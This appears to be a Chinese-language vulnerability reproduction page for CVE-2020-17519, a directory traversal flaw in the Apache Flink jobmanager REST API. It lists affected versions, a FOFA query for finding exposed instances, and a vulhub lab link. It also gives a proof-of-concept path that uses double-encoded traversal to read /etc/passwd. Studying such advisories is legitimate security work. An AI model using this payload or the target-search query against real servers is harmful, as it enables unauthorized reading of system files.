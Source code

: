 ```yaml
---
title: Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519
---
```


# Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519

## 漏洞描述
2021年01月06日，360CERT监测发现Apache Flink发布了Apache Flink 目录穿越漏洞,目录穿越漏洞的风险通告，漏洞编号为CVE-2020-17518,CVE-2020-17519，漏洞等级：高危，漏洞评分：8.5。
远程攻击者通过REST API目录遍历，可造成文件读取/写入的影响。
## 漏洞影响
<a-checkbox checked>Apache Flink 1.11.0</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.1</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.2</a-checkbox></br>

## 网络测绘
<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](../../../.vuepress/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现
验证POC

```shell
/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![a87cedc1-5a40-42bb-a377-9bdb03fad242](../../../.vuepress/public/img/a87cedc1-5a40-42bb-a377-9bdb03fad242.png)

